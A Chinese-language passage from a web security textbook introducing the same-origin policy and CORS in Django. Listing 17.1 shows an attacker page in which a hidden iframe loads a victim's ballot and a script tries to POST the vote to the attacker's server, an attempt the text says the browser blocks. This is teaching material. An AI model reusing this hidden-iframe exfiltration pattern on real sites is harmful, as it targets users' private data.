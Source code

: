 # 第十七章：跨源资源共享

本章内容包括

+   理解同源策略

+   发送和接收简单的 CORS 请求

+   使用 `django-cors-headers` 实现 CORS

+   发送和接收预检 CORS 请求

在第十五章中，您了解到一个源由 URL 的协议（方案）、主机和端口定义。每个浏览器都实现了*同源策略*（SOP）。该策略的目标是确保只有“相同源”的文档可以访问某些资源。这样可以防止具有 mallory.com 源的页面未经授权地访问源自 ballot.charlie.com 的资源。

将*跨源资源共享*（CORS）看作是放宽浏览器同源策略的一种方式。这使得 social.bob.com 可以从 https:/./fonts.gstatic.com 加载字体。它还允许 alice.com 的页面向 social.bob.com 发送异步请求。在本章中，我将向您展示如何使用 `django-cors-headers` 安全地创建和消耗共享资源。由于 CORS 的性质，本章包含的 JavaScript 比 Python 更多。

## 17.1 同源策略

到目前为止，您已经看到 Mallory 未经授权地访问了许多资源。她用彩虹表破解了 Charlie 的密码。她用 `Host` 头攻击接管了 Bob 的帐户。她通过 XSS 弄清了 Alice 投票给谁。在本节中，Mallory 发起了一次更简单的攻击。

假设 Mallory 想知道 Bob 在 2020 年美国总统选举中投了谁的票。她引诱他回到 mallory.com，他的浏览器渲染了以下恶意网页。这个页面悄悄地从 Bob 当前登录的网站 ballot.charlie.com 请求 Bob 的选票表单。包含 Bob 投票的选票表单然后加载到一个隐藏的 iframe 中。这触发了一个 JavaScript 事件处理程序，*试图*读取 Bob 的投票并将其发送到 Mallory 的服务器。

Mallory 的攻击失败得很惨，如下列表所示。Bob 的浏览器阻止了她的网页访问 iframe 文档属性，而是抛出了 `DOMException` 异常。同源策略（SOP）挽救了这一局面。

列表 17.1 Mallory 未能窃取 Bob 的私人信息

```html
<html>
  <script>
    function recordVote(){
      const ballot = frames[0].document.getElementById('ballot');   // ❶

      const headers = {
        'Content-type': 'application/x-www-form-urlencoded; charset=UTF-8'
      };
      fetch('/record/', {                                           // ❷
        method: 'POST',                                             // ❷
        headers: headers,                                           // ❷
        body: 'vote=' + ballot.value                                // ❷
      });                                                           // ❷
    };
  </script>
  <body>
    ...

    <iframe src="https://ballot.charlie.com/"                       # ❸
            onload="recordVote()"                                   # ❹
            style="display: none;">                                 # ❺
    </iframe>
  </body>
</html>
```
